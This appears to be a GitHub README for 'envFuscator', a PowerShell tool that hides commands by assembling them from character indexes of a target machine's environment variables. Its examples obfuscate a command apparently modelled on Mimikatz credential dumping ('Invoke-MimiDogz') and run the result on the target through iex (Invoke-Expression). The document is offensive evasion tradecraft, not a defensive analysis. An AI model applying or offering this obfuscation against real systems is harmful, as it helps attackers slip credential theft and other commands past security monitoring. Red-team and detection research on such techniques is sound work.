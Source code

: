 ## envFuscator  
  
![envFuscator](https://i.redd.it/iib2ote3l4d11.png)
  
#### Reconstructs command text by referencing env value character indexes. Can be run live and pull values directly from a host's env variables or alternatively by importing a csv file export of env variables from a target system.  
  
##### Parameter cmd  
Indicates the command being obfuscated.  
  
##### Parameter csvFile  
Optionally specifies a csv file to read env variables from.  
  
##### Example  
```powershell
.\envFuscator.ps1 -cmd Get-Service  
  
${env:ENV_PATH}[24] + ${env:PUBLIC}[5] + ${env:TOOLSEXT_PATH}[31] + ${env:Path}[255] + ${env:Path}[3] + ${env:CommonProgramFiles(x86)}[4] + ${env:ELGO_PATH_V11_0}[5] + ${env:Path}[13] + ${env:USERPROFILE}[5] + ${env:LOCALAPPDATA}[4] + ${env:USERNAME}[2]  
```
  
##### Example  
```powershell
.\envFuscator.ps1 -cmd Invoke-MimiDogz -csvFile C:\Data\env.csv  
  
${env:APP_PROFILE_STRING}[0] + ${env:DriverData}[5] + ${env:JRECOREROOT}[47] + ${env:IMGSOURCE}[5] + ${env:OBO_PATH}[42] + ${env:ChocolateyInstall}[23] + ${env:Path}[255] + ${env:PATHEXT}[3] + ${env:SetaBase}[12] + ${env:ChocolateyInstall}[9] + ${env:DABASAMPLES_ROOT}[30] + ${env:ChocolateyInstall}[10] + ${env:OneDrive}[12] + ${env:DABA_PATH}[6] + 'z'  

```
  
The resulting obfuscated output can be used to run commands on the target machine by wrapping with Invoke-Expression or a similar method.  
  
```powershell
iex ( ${env:APP_PROFILE_STRING}[0] + ${env:DriverData}[5] + ${env:JRECOREROOT}[47] + ${env:IMGSOURCE}[5] + ${env:OBO_PATH}[42] + ${env:ChocolateyInstall}[23] + ${env:Path}[255] + ${env:PATHEXT}[3] + ${env:SetaBase}[12] + ${env:ChocolateyInstall}[9] + ${env:DABASAMPLES_ROOT}[30] + ${env:ChocolateyInstall}[10] + ${env:OneDrive}[12] + ${env:DABA_PATH}[6] + 'z' )  
```
